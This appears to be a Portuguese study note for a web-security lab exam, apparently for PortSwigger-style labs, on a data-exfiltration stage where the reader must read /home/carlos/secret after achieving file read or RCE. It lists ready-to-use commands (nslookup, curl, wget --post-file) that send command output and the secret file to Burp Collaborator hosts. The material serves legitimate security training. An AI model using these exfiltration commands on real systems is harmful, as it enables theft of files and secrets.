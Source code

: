 # Etapa 3 - Exfiltração de Dados

Nessa etapa você precisa ler o conteúdo do arquivo `/home/carlos/secret`.

Baseado nisso, tenha em mente que as vulnerabilidades ou resultaram em leitura de arquivo (Path Traversal, XXE, etc) ou em RCE (OS Command Injection, SSTI, etc).

<br>

> [!WARNING]  
> Essa dica é semelhante ao da Etapa 2, mas um pouco mais raro de acontecer porque não tem um botão que faça isso pra você. Se você alcançar RCE, obviamente você não pode deletar o arquivo **/home/carlos/secret**, já que não tem como pedir um reset das aplicações. É importante mencionar isso porque na maioria dos laboratórios usamos comandos para DELETAR um arquivo, em vez de lê-lo.

<br>

Abaixo seguem algumas possibilidades de comando para exfiltrar o arquivo secret:
```
nslookup `whoami`.BURP-COLLABORATOR-SUBDOMAIN

curl burp.oastify.com?c=`whoami`

nslookup -q=cname+$(whoami).burp.oastify.com

$(curl $(cat /home/carlos/secret).OASTIFY.COM)

/usr/bin/wget --post-file /home/carlos/secret https://collaborator/
```

